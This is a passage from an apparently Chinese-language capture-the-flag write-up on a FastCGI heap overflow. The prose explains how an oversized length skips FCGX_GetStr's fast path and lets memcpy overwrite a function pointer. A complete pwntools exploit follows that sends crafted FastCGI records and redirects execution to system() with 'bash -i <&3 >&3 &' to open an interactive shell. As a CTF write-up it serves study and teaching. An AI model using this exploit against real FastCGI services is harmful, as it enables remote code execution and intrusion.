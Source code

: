 原版的exp在shell语句前有一串`" bi;"`能不能去掉呢？分析代码，由于我们的`n`非常大，
因此肯定会跳过`FCGX_GetStr`中的"fastpath"，直接到循环语句。接着做`memcpy`复制我们剩余的payload到堆块中，
发生溢出，由于我们的payload使`isClosed || !isReader`均不满足，因此会往下走到函数指针处，
顺利劫持控制流。要注意的是复制内存后有一句`stream->rdNext += m`，因此shell语句的第一个字节会发生修改，
这就是为什么下面的exp中，一开始是`" ;"`。

观察远程环境中打开的fd， **3** 是我们的连接，可以将0、1恢复成3来运行交互式shell。
为了避免运行shell时连接被中断而使`challenge`一直处于等待状态，加上`&`来将其放到后台。
总而言之，这样就可以在本地打开shell了。

### 本地利用

```sh
curl 127.0.0.1:8888
```

```python
#!/usr/bin/env python3
from pwn import *
import requests

exe = context.binary = ELF('./files/challenge')

def start(argv=[], *a, **kw):
    # return remote("35.241.98.126", 30642)
    return remote("127.0.0.1", 9999)

"""
typedef struct {
    unsigned char version;
    unsigned char type;
    unsigned char requestIdB1;
    unsigned char requestIdB0;
    unsigned char contentLengthB1;
    unsigned char contentLengthB0;
    unsigned char paddingLength;
    unsigned char reserved;
} FCGI_Header;
"""

def makeHeader(type, requestId, contentLength, paddingLength):
    header = p8(1) + p8(type) + p16(requestId) + p16(contentLength)[::-1] + p8(paddingLength) + p8(0)
    return header

"""
typedef struct {
    unsigned char roleB1;
    unsigned char roleB0;
    unsigned char flags;
    unsigned char reserved[5];
} FCGI_BeginRequestBody;
"""

def makeBeginReqBody(role, flags):
    return p16(role)[::-1] + p8(flags) + b"\x00" * 5

io = start()

header = makeHeader(9, 0, 900, 0)

io.send(makeHeader(1, 1, 8, 0) + makeBeginReqBody(1, 0) + header + p8(0) * 2 + p32(0xffffffff) + p32(0xffffffff)  + b"a" * (4 * 4) + b" ;bash -i <&3 >&3 & " +p32(0) * 3 + p32(exe.plt["system"]) )

io.interactive()
```